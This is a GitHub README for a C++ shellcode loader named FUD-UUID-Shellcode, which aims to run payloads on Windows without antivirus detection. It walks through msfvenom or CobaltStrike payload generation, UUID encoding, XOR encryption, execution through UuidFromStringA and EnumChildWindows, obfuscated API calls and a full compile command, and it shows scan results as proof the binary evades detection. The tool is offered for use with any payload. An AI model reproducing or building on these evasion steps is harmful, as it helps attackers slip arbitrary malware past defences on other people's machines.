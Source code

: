 # FUD-UUID-Shellcode
<p align="center">
  <img src="https://github.com/Bl4ckM1rror/FUD-UUID-Shellcode/blob/main/logo.png"> <br> 
</p>


## Introduction
Another shellcode injection technique using C++ that attempts to bypass Windows Defender using XOR encryption sorcery and UUID strings **madness** :).

# How it works
## Shellcode generation
* Firstly, generate a payload in binary format( using either `CobaltStrike` or `msfvenom` ) for instance, in `msfvenom`, you can do it like so( the payload I'm using is for **illustration** purposes, you can use whatever payload you want ):
    ```sh
    msfvenom -p windows/messagebox  -f raw -o shellcode.bin
    ```

* Then convert the shellcode( in binary/raw format ) into a `UUID` string format using the Python3 script, `bin_to_uuid.py`: 
  ```sh
  ./bin_to_uuid.py -p shellcode.bin > uuid.txt
  ```

* `xor` encrypt the `UUID` strings in the `uuid.txt` using the Python3 script, `xor_encryptor.py`. 
  ```sh
  ./xor_encryptor.py uuid.txt > xor_crypted_out.txt
  ```

* Copy the `C-style` array in the file, `xor_crypted_out.txt`, and paste it in the C++ file as an array of `unsigned char` i.e. `unsigned char payload[]{your_output_from_xor_crypted_out.txt}`

## Execution
This shellcode injection technique comprises the following subsequent steps:
* First things first, it allocates virtual memory for payload execution and residence via `VirtualAlloc`
* It `xor` decrypts the payload using the `xor` key value 
* Uses `UuidFromStringA` to convert `UUID` strings into their binary representation and store them in the previously allocated memory.
* Use `EnumChildWindows` to execute the payload previously loaded into memory( in step 1 )

# What makes it unique?
* It doesn't use standard functions like `memcpy` or `WriteProcessMemory` which are known to raise alarms to AVs/EDRs, this program uses the Windows API function called `UuidFromStringA` which can be used to decode data as well as write it to memory( **Isn't that great folks?** *And please don't say "NO!"* :) ).
* It uses the **function call obfuscation** trick to call the Windows API functions
* Lastly, because it looks unique :) ( *Isn't it?* :) )

# Important
* You have to change the `xor` key(row 86) to what you wish. This can be done in the `./xor_encryptor.py` python3 script by changing the `KEY` variable.
* You have to change the default `executable filename` value(row 90) to your filename.
* The command for compiling is provided in the C++ file( *around the top* ). NB: `mingw` was used but you can use whichever compiler you prefer. :)

## Compile
```sh
x86_64-w64-mingw32-g++ -O2 fud-uuid-shc.cpp -o lazarus.exe -I/usr/share/mingw-w64/include/ -L/usr/x86_64-w64-mingw32/lib/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -flto -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive -lrpcrt4
```

# Proof-of-Concept( PoC )

![AV Scan](https://github.com/Bl4ckM1rror/FUD-UUID-Shellcode/blob/main/PoC.png?raw=true)

# Static Analysis

![AV Scan](https://github.com/Bl4ckM1rror/FUD-UUID-Shellcode/blob/main/static-analysis.png?raw=true)

# AV Scan results
The binary was scanned using [antiscan.me](https://antiscan.me/scan/new/result?id=3IYj6CtMq6h8) on 01/08/2022.

![AV Scan](https://github.com/Bl4ckM1rror/FUD-UUID-Shellcode/blob/main/antiscan.png?raw=true)

# Credits
https://research.nccgroup.com/2021/01/23/rift-analysing-a-lazarus-shellcode-execution-method/  
